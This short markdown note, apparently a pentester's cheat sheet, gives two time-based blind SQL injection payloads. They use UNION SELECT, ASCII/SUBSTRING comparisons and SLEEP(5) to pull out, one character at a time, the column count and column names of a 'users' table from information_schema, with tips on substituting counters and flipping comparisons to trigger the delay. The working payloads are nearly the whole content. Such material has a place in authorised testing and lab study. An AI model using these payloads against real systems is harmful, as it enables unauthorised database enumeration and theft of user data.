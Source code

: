 ## Purpose: Retrieving columns for a table named users in the current database (counting how many rows total)

**Payload**: 
- $p is the position counter, starting from 1
- $c is the character (ascii value)

> To test, please replace $p with 1 (position 1 from the string returned from query) and $c with a ascii value


`' UNION SELECT IF( ASCII(SUBSTRING((SELECT COUNT(column_name) from information_schema.columns where table_name = 'users'), $p, 1)) = $c , SLEEP(5), 1); -- `

## Purpose: Retrieving columns for a table named users in the current database, query data for all rows

**Payload**:
- $p is the position counter, starting from 1
- $c is the character (ascii value)
- $r is the row position counter, starting from 1

> To test, please replace $p with 1 (position 1 from the string returned from query) and $c with a ascii value, and $r with 1 (first row), I usually switch the = to > or < to easily trigger the sleep

`' UNION SELECT IF( ASCII(SUBSTRING((SELECT column_name from information_schema.columns where table_name = 'users' order by column_name ASC LIMIT $r, 1), $p, 1)) = $c , SLEEP(5), 1); -- `
